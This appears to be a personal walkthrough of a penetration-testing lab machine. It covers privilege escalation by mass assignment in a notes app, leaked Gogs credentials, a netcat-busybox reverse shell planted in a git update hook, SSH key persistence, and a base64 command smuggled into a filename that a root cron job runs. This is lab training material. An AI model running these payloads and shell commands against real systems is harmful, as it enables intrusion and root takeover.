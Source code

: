 - All: #notes-pg #gogs #api #git-hook #reverse-shell #netcat-busybox #pspy #cron #find #exec #bash-p #base64
- Foothold: #notes-pg #api
- Access: #gogs #git-hook #reverse-shell #netcat-busybox
- Priv Esc: #pspy #cron #find #exec #bash-p #base64
#### Enumeration

>[!code] Enumerate the ports
>- rustscan -a $ip
>
>![Pasted image 20240609145513](Pasted%20image%2020240609145513.png)

>[!code]- Note the web server at port 8000 (a Gogs service)
>- A Gogs service:
>
>![Pasted image 20240610045354](Pasted%20image%2020240610045354.png)
#### Local.txt
##### Find login credentials for the Gogs service

>[!code]- Navigate to the web server on port 80 (a notes.pg service)
>We're met with a login page:
>>[!code]- Screenshot of the login page
>>![Pasted image 20240610043302](Pasted%20image%2020240610043302.png)

>[!code]- Create an account and note the POST payload
Note the POST data used when creating an account:
>```powershell
>authenticity_token=pR8JHMdHN-duxwY2UT7Kd5JPwOz61k5fcjR79C-tPYT87LDqLvI3VgylAkUhINhKxz9W9nZYUMhAcBXyFVNL4g&user%5Busername%5D=new_user&user%5Bpassword%5D=new_password&user%5Bpassword_confirmation%5D=new_password&button=
>```

>[!code]- Discover that we don't have access to all the posted notes on the website
>- After creating a note we see we can access it at http://assignment.pg/notes/6
>- So there must be another 5 notes
>- We are told we have _Insufficient rights!_ to access ../notes/1
>
>>[!code]- Create a new note
>>![Pasted image 20240610044141](Pasted%20image%2020240610044141.png)
>
>>[!code]- Note the URL of the created note (.../notes/6)
>>![Pasted image 20240610044202](Pasted%20image%2020240610044202.png)
>
>>[!code]- Cannot access .../notes/1
>>![Pasted image 20240610044356](Pasted%20image%2020240610044356.png)

>[!Exploit]- Priv Esc 1. Find leaked credentials for another account
>- The _members_ page includes the POST payload of a created account.
>- It suggests an account has the username _forged_owner_:_forged_owner_
>
>>[!code]- The members page
>>![Pasted image 20240610043459](Pasted%20image%2020240610043459.png)

>[!exploit]- Priv Esc 2. Abuse the _role_ attribute when creating a new account
>- When browsing our profile information, we see there is a _role_ attribute which equals _member_.
>- In contrast, the _role_ attribute for the _jane_ account is _owner_.
>- This suggests when creating a new account we can set this role attribute to owner.
>
>>[!code]- Profile of our account
>>![Pasted image 20240611045102](Pasted%20image%2020240611045102.png)
>
>>[!code]- Profile of the _jane_ account
>>![Pasted image 20240611045138](Pasted%20image%2020240611045138.png)
>
>So, when creating a new account (_forged_owner_), we can edit the payload to make our role be an _owner_:
>```powershell
>authenticity_token=oPR93X4UzlLdlPeg_Aek9v3XDDJLLoL3hXS8pHLwzOPz8ER61j8nzjESjr4Tsq-_VGRhZBVCZ9TSr9VZqIe5YQ&user[username]=forged_owner&user[role]=owner&user[password]=forged_owner&user[password_confirmation]=forged_owner&button=
>```

>[!code]- Login as _forged_user_ and get access to note 1
>- It appears to contain credentials for the Gogs service (running at port 8000):
>
>>[!code]- Note 1
>>![Pasted image 20240610044811](Pasted%20image%2020240610044811.png)

>[!success]- Obtain credentials `jane`:`svc-dev2022@@@!;P;4SSw0Rd`
##### Obtain a reverse shell via the Gogs service

>[!code]- Login to Gogs and create a new repository
>Create a new repository
>>[!code]- Create a new repository
>>![Pasted image 20240610045601](Pasted%20image%2020240610045601.png)

>[!exploit]- Exploit - We can edit the _update_ Git Hook to execute a reverse shell
>Update the 'update' Git Hook so that it executes a reverse shell.
>- The code within the update Git Hook will execute when the repository is updated, eg when something it committed to it.
>- The chosen reverse shell is [Netcat Busybox](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#netcat-busybox)
>
>>[!code]- Adding a reverse shell into the update Git Hook
>>![Pasted image 20240610045801](Pasted%20image%2020240610045801.png)
>
>>[!code]- Netcat Busybox reverse shell
>>```bash
>>rm -f /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 4242 >/tmp/f
>>```

>[!code]- Clone the repository to execute the Git Hook
>To update the repository we can add a file to the repository:
>```bash
>$ git clone http://assignment.pg:8000/jane/test.git
>$ cd test
>$ touch README.md
>$ git init
>$ git add README.md
>$ git commit -m "first commit"
>```
>___
>
>Setup a listener on Kali:
>```bash
>$ nc -lvnp 1234
>```
>___
>
>Push the changes to the repository and catch the reverse shell with the listener:
>```bash
> git push origin master
>```

>[!success]- Obtain local.txt
>After receiving our reverse shell, we can find local.txt:
>![Pasted image 20240610053205](Pasted%20image%2020240610053205.png)

>[!code]- Get SSH access as Jane
>Create the authorized_keys folder on victim:
>```bash
>$ cd /home/jane/.ssh/
>$ touch authorized_keys
>```
>Copy my public key on Kali into the authorized_keys files on victim:
>```bash
>bubbleman@kali>$ cat id_ed25519.pub
>$ echo 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAICht3Ccu4rTtNKLaGqJzTTqFu7MwpBQuPpftcfBYADxn bubbleman@kali' > authorized_keys
>```
>SSH into victim as jane:
>```bash
>bubbleman@kali>$ ssh jane@192.168.235.224 -i ~/.ssh/id_ed25519
>```
#### Proof.txt

>[!code]- Run pspy and find a cron job running a vulnerable find command
>- A script is executing a vulnerable command as root
>
>>[!code]- Cron job
>>![Pasted image 20240612044104](Pasted%20image%2020240612044104.png)
>
>We have write permissions on the /dev/shm/ folder:
>>[!code]- /dev/shm/ permissions
>>![Pasted image 20240612044327](Pasted%20image%2020240612044327.png)

>[!exploit]- Exploit - Create a malicious file for the find command
>- The cron job finds all files within the _/dev/shm/_ directory and passes them to the _rm_ command which executes them
>- We can create a new file which adds SUID permissions to the _/bin/bash_ file (ignore the backslash before the double equals sign)
>
>```bash
>jane@assignment:/tmp$ touch /dev/shm/'$(echo -n Y2htb2QgdStzIC9iaW4vYmFzaA\==|base64 -d|bash)'
>```
>
>>[!code]- The decoded base64 string
>>![Pasted image 20240611052054](Pasted%20image%2020240611052054.png)
>
>This would cause the cron script to execute:
>```bash
>sh -c 'rm $(echo -n Y2htb2QgdStzIC9iaW4vYmFzaA\==|base64 -d|bash)'
>```
>After creating the file, /dev/shm/ contains:
>>[!code]- /dev/shm with the malicious file
>>![Pasted image 20240612045538](Pasted%20image%2020240612045538.png)
>
>The permissions of the /bin/bash change after executing:
>>[!code]- /bin/bash permission change
>>Before:
>>![Pasted image 20240612045037](Pasted%20image%2020240612045037.png)
>>After:
>>![Pasted image 20240612045606](Pasted%20image%2020240612045606.png)
>
>Now we can execute bash with the permissions of the owner (**-p**):
>
>![Pasted image 20240612045719](Pasted%20image%2020240612045719.png)

>[!success]- Obtain proof.txt
>
>![Pasted image 20240612045907](Pasted%20image%2020240612045907.png)




